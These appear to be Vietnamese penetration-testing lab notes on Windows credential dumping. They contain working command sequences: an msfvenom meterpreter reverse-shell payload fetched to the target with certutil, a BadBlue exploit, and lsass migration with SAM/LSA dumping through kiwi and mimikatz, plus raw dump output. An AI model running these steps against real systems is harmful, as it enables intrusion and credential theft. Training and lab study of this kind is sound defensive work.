







# Windows Credential Dumping

Cần có phiên nâng cao để thu thập Hash, vì vậy cần leo thang đặc quyền trước khi đi vào phần này 

## Windows Password Hashes

Windows lưu trữ các băm password user ở SAM (Security Accounts Manager) database

Windows có 2 loại băm:

- LM -> ko còn thấy nhiều nữa vì chạy ở windows cũ (vista,..)
- NTLM

## LM (LanMan)

LM là thuật toán băm mặc định đã được triển khanh trên windows chạy kernel trước NT 4.0

Qúa trình băm:

- Pass được chia thành 2 phần 7 kí tự 

- Các kí tự được upcase viết hoa (vì vậy nếu mật khẩu có chữ hoa và chữ thường thì đều ko khác gì nhau vì đều phải lên chữ hoa)

- mỗi phần sau đó được hash riêng biệt bằng DES 

=> LM hash là phương thức yếu và dễ dàng bẻ khóa 




## NTLM (NTHash)

là giao thức xác thực được sử dụng giữa các máy tính, bao gồm password và username

NTLM cải thiện so với LM:

- Không chia làm 2 khối

- phân biệt chữ hoa chữ thường

- cho phép sử dụng các kí tự đặc bieejt




## Tìm kiếm Password trong Windows Configurations Files

Kali Machine:

tạo `meterpreter` x64 payload

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe`

Tạo 1 server để đẩy payload lên:

`python -m SimpleHTTPServer 80`

Vào Target machine:

`cd Desktop`

Download the payload file

`certutil -urlcache -f http://10.10.4.2/payload.exe payload.exe`

Trở về Kali machine:

Mở MSF:

`use multi/handler`

`set payload windows/x64/meterpreter/reverse_tcp`

`set LPORT 1234`

`set LHOST 10.10.4.2`

`run`

-> tạo ra port nghe, vào Target machine để chạy payload `payload.exe` vừa tải về, ta sẽ có được reverse shell

trở lại Kali machine

`sysinfo` 

Bây giờ ta sẽ tìm file `unattend.xml` hoặc `autounattend.xml`

`search -f unattend.xml`

Hoặc tìm tay:

`cd C:\\`

`cd Windows`

`cd Panther`

`dir`

`download unattend.xml`

Mở 1 cmd tab khác:

`cat unattend.xml`



`administrator` user configured base64 password is `QWRtaW5AMTIz`

decode base64 `QWRtaW5AMTIz` ta được password: `Admin@123`

Test the `administrator:Admin@123root` credentials with the psexec tool

`psexec.py administrator@10.4.19.9` -> nhập password

`whoami` -> đã leo quyền cao nhất

## Dumping hashes with Mimikatz

### Lab

Trên kali của attacker:

`nmap 10.2.29.32`

trả về có port 80

`nmap -sV -p 80 10.2.29.32`

80/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Thông tin máy chủ và phiên bản

📌 Exploit BadBlue 2.7 with metasploit

`msfconsole -q`

`search badblue`

`use exploit/windows/http/badblue_passthru`

`set RHOSTS 10.2.29.32`

`run`

Sau khi chạy ta sẽ có phiên vào được máy chủ

`sysinfo`

`getuid` 

`pgrep lsass` -> lấy PID của `lsass.exe`

`migrate <PID>`

`getuid` -> đã lên SYSTEM

`load kiwi` ->load extension của msf

`help`

`creds_all` -> lấy tất cả creds

Dump LSA SAM (NTLM hashes for all users)

`lsa_dump_sam`



`lsa_dump_secrets`

```bash
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2
```

=> Không cung cấp được thông tin gì 

`cd C:\\`

`mkdir Temp`

`cd Temp`

`upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` -> tải payload lên target

`shell` -> vào shell của máy target

`.\mimikatz.exe` -> chạy mimikatz

-> sẽ vào console của mimikatz

`mimikatz# privilege::debug`

Dump the cache of the `lsass` process

`lsadump::sam`



`lsadump::secrets`



`sekurlsa::logonPasswords` -> nếu login password, chế độ lưu plain text được bật, nhập câu lệnh này sẽ xem được pass (còn password: null thì không bật)




## Pass-The-hash attack

Chúng ta đã tìm cách lấy HASH như trên, và ta sẽ tìm cách tấn công từ Hash đó 

Tools: Metasploit PsExec module, Crackmapexec


